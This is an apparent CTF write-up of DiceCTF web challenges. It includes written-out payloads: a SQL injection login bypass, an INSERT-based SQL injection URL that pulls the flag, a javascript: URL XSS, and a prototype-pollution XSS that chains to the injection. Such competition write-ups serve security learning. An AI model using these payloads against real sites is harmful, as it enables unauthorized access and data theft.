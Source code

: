 # DiceCTF

## babierCSP

Simply use `location.href` to bypass CSP and follow the nonce of the `script-src`

## Missing Flavortext

`username=admin&password[]=' or 1=1 -- `

## Web Utils

the service allows you to either submit a url as link or some plaintext as paste that there is no way to xss.
However, it pass the whole body as extendable param so we can overwrite the `type`. 
```javascript
database.addData({ type: 'link', ...req.body, uid });
```
The service uses `window.location=data` when type is link , then you can use `javascript:xxx` to get xss on view page.

## build-a-panel

There 's a easy unintended solution for this one :( I stuck in the way to intended solution.
in `/admin/debug/add_widget` there 's a `insert into` type sql injection. So it is able to inject the flag into the database
when visiting `/panel` , it will fetch api according to your widget id then you can see the flag
```url
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=a292332b-9e6a-4353-a300-66f43237920e', (SELECT * FROM flag),'{"type":"weather"}');--&widgetname=a&widgetdata=a
```

## Build a Better Panel

So this is the intended solution for the last one. I fail to solve it generally because I tend to use the sql-injection as blind-based......
It is easy to notice there is a front-end xss in `safeDeepMerge` function since we can bypass it with `prototype`. And there is a gadget using cross-origin embedded reddit posts.
```javascript
Object.prototype.onload = 'alert(1)'
```
another important thing is that you can't using in-line script because of CSP. But since we just need to let the admin visit the page with xss. you can simply
add the url that we used in the last challenge as src.
the src-doc attr of iframe is helpful

```javascript
{"widgetName":"welcome back to build a panel!","widgetData":"{"constructor":{"prototype":{"srcdoc":"<script src='https://build-a-better-panel.dicec.tf/admin/debug/add_widget?panelid=a292332b-9e6a-4353-a300-66f43237920e', (SELECT * FROM flag),'{"type":"weather"}');--&widgetname=a&widgetdata=a'>\"}}}"}
```